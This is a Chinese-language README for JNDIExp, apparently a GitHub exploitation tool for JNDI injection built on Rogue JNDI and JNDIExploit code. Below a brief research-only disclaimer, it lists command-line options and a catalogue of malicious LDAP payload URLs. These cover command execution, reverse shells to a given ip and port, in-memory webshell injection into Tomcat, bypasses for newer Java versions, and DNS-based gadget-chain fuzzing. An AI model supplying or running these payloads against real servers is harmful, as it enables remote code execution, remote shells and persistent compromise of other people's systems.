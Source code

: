 

# JNDIExp使用说明

用于 JNDI注入 利用的工具，参考/引用了 **Rogue JNDI** / **JNDIExploit** / **Y4er** / **c0ny1**项目的代码。

## **免责说明**

本工具仅适用于安全研究，严禁适用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

- - - -

TomcatServletMemShellFromJMX
## **使用说明**
- - - -
```shell
Usage: java -jar JNDIInject-1.2-SNAPSHOT.jar [options]
  Options:
    -i, --ip       Local ip address  (default: 0.0.0.0)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show ALL usage (default: false)
    -h, --help     Show this help
```
**使用`java -jar JNDIInject.jar -u`查看全部完整的支持的 LDAP 格式以及爆破的字典**

```shell
java -jar JNDIInject.jar -u

Supported LADP Queries:
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://0.0.0.0:1389/basic/[PayloadType]/[Params], e.g.
		ldap://0.0.0.0:1389/basic/[cmd]  ---Best URL Encode
    ldap://0.0.0.0:1389/basic/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/basic/ReverseShell2/[ip]/[port]
    ldap://0.0.0.0:1389/basic/memshell/[memshellType]

    ----------------------------------------------------------------------------------------->
    高版本java的利用
[+] ByPass Queries: ldap://0.0.0.0:1389/[PayloadType]/[Type]/[Params], e.g.
    ldap://0.0.0.0:1389/[PayloadType]/[cmd]
    ldap://0.0.0.0:1389/[PayloadType]/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/[PayloadType]/reverseshell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/[PayloadType]/reverseshell2/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/[PayloadType]/memshell/[memshellType] 
    
    
[+] ----------------------------------------------------------------------------------------->
		爆破可利用链
    ldap://0.0.0.0:1389/fuzzbyDNS/[domain]
    
    
    ----------------------------------------------------------------------------------------->
		爆破可利用链2
[+] Fuzz Queries: ldap://0.0.0.0:1389/fuzz/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz/[PayloadType]/[domain]
   
    ----------------------------------------------------------------------------------------->
  
   [PayloadType]： 
   ldap://0.0.0.0:1389/URLDNS/[domain]
{------The following methods are supported memshell[以下方法支持内存马]-------------------}
```